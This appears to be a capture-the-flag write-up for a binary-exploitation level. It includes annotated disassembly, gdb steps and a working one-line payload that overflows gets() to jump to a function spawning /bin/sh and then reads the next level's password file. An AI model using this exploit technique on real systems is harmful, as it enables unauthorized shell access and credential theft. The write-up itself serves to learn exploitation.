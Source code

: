 - attack: buffer overflow
- binary behavior: get argument and do nothing
- targeted functions: run and main
- vulnerability in main: gets() function (receives user input) has no buffer limit
- vulnerability in run: system() runs /bin/sh

Method:
- find the overflow size
- find eip offest size
- find return function address
- overwite eip by the return address
- cat passwd when get console with root privedges

Info:
- 0x08048444 - address of run function
- 0x44484080 - same in little-endian
- same in hex - \x44\x84\x04\x08

- eip register address after segfault - 0x63413563
- its offset - 76 (from wiremask.eu)


Code:
objdump -d ./level1
gdb level1
    r A # run with argument
(gdb)  r <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac"
# use random pattern generation for >80, just multiplication of same symbils doesn't works. Why?
(python -c 'print "a" * 76 + "\x44\x84\x04\x08"';cat) | ./level1
cd ..; cat level2/.pass

Functions
main
08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp     # put buffer in esp
 8048486:       83 ec 50                sub    $0x50,%esp           # of size 80
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax      # - 16 = 64 and put it in eax 
 804848d:       89 04 24                mov    %eax,(%esp)          # and put in in buffer  
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>   # exploit - buffer in gets
 8048495:       c9                      leave
 8048496:       c3                      ret # put here the adress of run function


run
08048444 <run>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       a1 c0 97 04 08          mov    0x80497c0,%eax
 804844f:       89 c2                   mov    %eax,%edx
 8048451:       b8 70 85 04 08          mov    $0x8048570,%eax
 8048456:       89 54 24 0c             mov    %edx,0xc(%esp)
 804845a:       c7 44 24 08 13 00 00    movl   $0x13,0x8(%esp)
 8048461:       00
 8048462:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048469:       00
 804846a:       89 04 24                mov    %eax,(%esp)
 804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt> #exploit
 804847e:       c9                      leave
 804847f:       c3



Additional info
- pypes
 < - (process substitution) feed the output of right process/es into stdin of lest process
 | - (pipe) same
 < <(;) - same but passing two commands
 <() <() - same
 << - (here-document) pass the ending string, write arguments, exit with writing ending string
 <<< - (here-string) just passing a string as argument
 
- hex offset - the order of element in memory array (base address + offset = absolute address)